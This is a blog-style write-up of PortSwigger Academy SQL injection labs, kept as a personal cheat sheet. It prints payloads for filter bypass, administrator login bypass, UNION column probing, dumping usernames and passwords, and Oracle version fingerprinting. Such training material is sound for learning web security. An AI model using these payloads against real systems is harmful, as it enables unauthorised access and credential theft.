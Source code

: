 ```yaml
---
layout: post
title: Portswigger Academy - SQL Injection
date: 2023-06-06 15:43:18 +0200
categories: [Portswigger Academy, SQL Injection]
tags: [SQL Injection, Write-up, Cheat Sheet]
img_path: /assets/img/labs/portswigger/sql-injection/
image:
  path: sql-injection.png
---
```


## Info

This is my write-up for the *SQL Injection* learning path at the Portswigger Academy.\
The reason for this write-up is to have a cheat-sheet or some go-to notes for myself.\
Probably I've found flags in a different way than intended (with or without the use of BurpSuite), and not always in the order of the hints.

[Portswigger Academy - SQL Injection](https://portswigger.net/web-security/sql-injection)

## LAB : SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This is an easy one. Just navigate to a category, and SQL Inject the GET query.\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' OR 1=1--`

## LAB : SQL injection vulnerability allowing lobin bypass

This one can be done by passing a SQL Injection in the *password* field of the login form.

- Username: `administrator`
- Password: `' or 1=1--`

## LAB : SQL injection UNION attack, determining the number of columns returned by the query

This can also be done by injecting the SQL injection straight into the GET query of the URL.

First we need to check how many columns the original query returns, and match those.\
Start off with one *NULL* and keep adding until you don't get an error anymore.\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL,NULL--`

Now we know we need to return 3 columns in our injection, we need to find a column that can contain a string.\
Again, start with trying the first column, and move further untill you don't get an error anymore.\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,'abc',NULL--`


## LAB : SQL injection UNION attack, retrieving data from other tables

Building on the previous lab. First check how many columns we need to return:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL--`

Check which columns can contain strings (and where you see the 1st column, and where the 2nd):\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT 'abc','xyz'--`

Now we can print all usernames with their passwords as a new item:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT username,password FROM users--`

## LAB : SQL injection attack, querying the database type and version on Oracle

Trying what we did in the previous 2 labs doesn't work here. No matter how many *NULL*s we add, we keep getting errors:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL,NULL--`

That's because in this case there's no MS-SQL as backend. But an Oracle database (as suggested in the title of the lab)\
For Oracle DB's we have to do the following:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL FROM dual--`

Now that this doens't return an error, we can actually check which database type we are dealing with:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,banner FROM v$version--`



## Credits

[Header image by flaticon](https://www.flaticon.com/free-icons/hacking)